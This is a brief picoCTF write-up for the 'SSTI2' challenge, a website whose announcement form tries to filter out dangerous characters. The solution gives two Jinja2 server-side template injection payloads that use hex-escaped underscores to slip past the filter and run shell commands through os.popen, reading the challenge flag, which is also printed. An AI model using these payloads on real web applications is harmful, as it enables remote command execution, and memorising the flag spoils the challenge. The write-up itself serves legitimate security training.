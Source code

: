 # SSTI2  

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.

Solution

**Server Side Template Injection**
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /challenge/flag')|attr('read')()}}
```

### FLAG - picoCTF{sst1_f1lt3r_byp4ss_060a5eb0}

Resources
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
